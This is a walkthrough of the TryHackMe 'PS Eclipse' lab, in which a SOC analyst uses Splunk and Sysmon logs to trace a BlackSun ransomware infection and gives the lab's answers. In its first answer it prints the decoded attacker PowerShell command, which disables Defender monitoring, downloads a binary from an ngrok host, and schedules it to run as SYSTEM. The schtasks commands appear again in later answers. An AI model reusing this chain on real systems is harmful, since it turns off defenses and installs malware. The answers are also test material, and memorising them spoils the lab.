





# PS Eclipse
Use Splunk to investigate the ransomware activity.

[TryHackMe Room](https://tryhackme.com/room/posheclipse)

## Introduction
You are a SOC Analyst for an MSSP (Managed Security Service Provider) company called **TryNotHackMe**.

A customer sent an email asking for an analyst to investigate the events that occurred on Keegan's machine on **Monday, May 16th, 2022**. The client noted that **the machine** is operational, but some files have a weird file extension. The client is worried that there was a ransomware attempt on Keegan's device.

Your manager has tasked you to check the events in Splunk to determine what occurred in Keegan's device. 

Happy Hunting!

## Tools Used
- dCode
- Splunk
- VirusTotal

---
---

## Answer the questions below
### 1. A suspicious binary was downloaded to the endpoint. What was the name of the binary?
To filter out the logs, the following search search query was used:

```
index=main ComputerName="DESKTOP-TBV8NEF" sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode="11" Image="C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe"
```

Next, the `TargetFilename` field was investigated to determine the suspicious binary.

One of the files that stood out was `OUTSTANDING_GUTTER.exe` as the file name is unusual and it's saved in the `C:\Windows\Temp\` directory, one of the common staging areas that attackers use.



However to further verify that this was the suspicious file, the following search query was used:

```
index=main ComputerName="DESKTOP-TBV8NEF" sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode="11" Image="C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe" TargetFilename="C:\\Windows\\Temp\\OUTSTANDING_GUTTER.exe"
```

The initial file creation event were investigated, specifically its `ProcessGuid` and `ProcessID`.



Afterwards, the following search query was used:

```
index=main ComputerName="DESKTOP-TBV8NEF" sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode="1" ProcessGuid:"{eea302a0-51cb-6282-d00e-000000000300}" ProcessId:"10224"
```

This led to the discovery of an encoded PowerShell command.



With the help of dCode, the command was decoded as:

```
Set-MpPreference -DisableRealtimeMonitoring $true;wget http://886e-181-215-214-32.ngrok.io/OUTSTANDING_GUTTER.exe -OutFile C:\Windows\Temp\OUTSTANDING_GUTTER.exe;SCHTASKS /Create /TN "OUTSTANDING_GUTTER.exe" /TR "C:\Windows\Temp\COUTSTANDING_GUTTER.exe" /SC ONEVENT /EC Application /MO *[System/EventID=777] /RU "SYSTEM" /f;SCHTASKS /Run /TN "OUTSTANDING_GUTTER.exe"
```

It must be noted that the URL has been defanged.



Let's breakdown what the command does. This disables the real-time monitoring of MS Defender, download `OUTSTANDING_GUTTER.exe` from `hxxp[://]886e-181-215-214-32[.]ngrok[.]io`, and it creates a scheduled task in which the binary will only run when an Event ID 777 appears.

These evidences prove that <mark>`OUTSTANDING_GUTTER.exe`</mark> was the suspicious binary.

### 2. What is the address the binary was downloaded from? Add http:// to your answer & defang the URL.

<details>
<summary>💡 Hint</summary>

```
CyberChef can help with defanging the URL.
```

</details>

Based from the decoded PowerShell command, the binary was downloaded from <mark>`hxxp[://]886e-181-215-214-32[.]ngrok[.]io`</mark>.

### 3. What Windows executable was used to download the suspicious binary? Enter full path.

PowerShell was used for the download. The full path is <mark>`C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`</mark>.



### 4. What command was executed to configure the suspicious binary to run with elevated privileges?

<details>
<summary>💡 Hint</summary>

```
Event Code 12 will help here. Note that the attacker tried multiple attempts to configure this command correctly.
```

</details>

In order to locate the command, `Sysmon Event ID 1` as well as `OUTSTANDING_GUTTER.exe` was appended in the search query.

The command for configuring the binary was <mark>`"C:\Windows\system32\schtasks.exe" /Create /TN OUTSTANDING_GUTTER.exe /TR C:\Windows\Temp\COUTSTANDING_GUTTER.exe /SC ONEVENT /EC Application /MO *[System/EventID=777] /RU SYSTEM /f`</mark>.

### 5. What permissions will the suspicious binary run as? What was the command to run the binary with elevated privileges? (Format: User + ; + CommandLine)

It's ran by the `NT AUTHORITY/SYSTEM`. The answer is <mark>`NT AUTHORITY\SYSTEM;"C:\Windows\system32\schtasks.exe" /Run /TN OUTSTANDING_GUTTER.exe`</mark>.

### 6. The suspicious binary connected to a remote server. What address did it connect to? Add http:// to your answer & defang the URL.

<details>
<summary>💡 Hint</summary>

```
CyberChef can help with defanging the URL.
```

</details>

`Sysmon Event ID 22` was investigated to check for DNS Queries. One domain stood out, `9030-181-215-214-32[.]ngrok[.]io`. Another ngrok domain just like the domain from the encoded PowerShell command.

By using the following search query:

```
index=main ComputerName="DESKTOP-TBV8NEF" source="WinEventLog:Microsoft-Windows-Sysmon/Operational" 9030-181-215-214-32.ngrok.io
```

The domain was verified to be malicious as the DNS query was executed by `OUTSTANDING_GUTTER.exe`. 

<mark>`9030-181-215-214-32[.]ngrok[.]io`</mark> was the remote server.

It is important to note that `ngrok` is a tunneling service which exposes local services to the Internet.

### 7. A PowerShell script was downloaded to the same location as the suspicious binary. What was the name of the file?

`Sysmon Event ID 11` and .ps1 scripts were investigated. The following search query was used:

```
index=main ComputerName="DESKTOP-TBV8NEF" source="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode="11" Image="C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe" *.ps1
```

Files that were saved in the `C:\Windows\Temp\` directory were the files of interest. 

One of them was `script.ps1`. To know more about this script, its `ProcessGuid` and `ProcessID` was investigated. The following search query was used:

```
index=main ComputerName="DESKTOP-TBV8NEF" source="WinEventLog:Microsoft-Windows-Sysmon/Operational" ProcessGuid:"{eea302a0-536e-6282-270f-000000000300}" ProcessId:"7972" script.ps1
```

One log revealed its hashes. 

Upon feeding its MD5 hash in VirusTotal, multiple vendors flagged it as malicious.  

Hence the <mark>`script.ps1`</mark> was interesting.

### 8. The malicious script was flagged as malicious. What do you think was the actual name of the malicious script?

<details>
<summary>💡 Hint</summary>

```
Check VirusTotal for the hash of the PowerShell script.
```

</details>

Based from the scan in VirusTotal, it's identified popularly as <mark>`BlackSun.ps1`</mark>.

### 9. A ransomware note was saved to disk, which can serve as an IOC. What is the full path to which the ransom note was saved?

The ransomware note was able to be located by probing `Sysmon Event ID 11` and .txt files.

The full path is <mark>`C:\Users\keegan\Downloads\vasg6b0wmw029hd\BlackSun_README.txt`</mark>.

It is important to note that it shares the same `ProcessGuid` and `ProcessID` as `script.ps1`.

### 10. The script saved an image file to disk to replace the user's desktop wallpaper, which can also serve as an IOC. What is the full path of the image?

The image was found by investigating `Sysmon Event ID 11` and .jpg files.

The full path is <mark>`C:\Users\Public\Pictures\blacksun.jpg`</mark>.

It is important to note that it shares the same `ProcessGuid` and `ProcessID` as `script.ps1`.

---
---

## References
- https://www.virustotal.com/gui/file/e5429f2e44990b3d4e249c566fbf19741e671c0e40b809f87248d9ec9114bef9
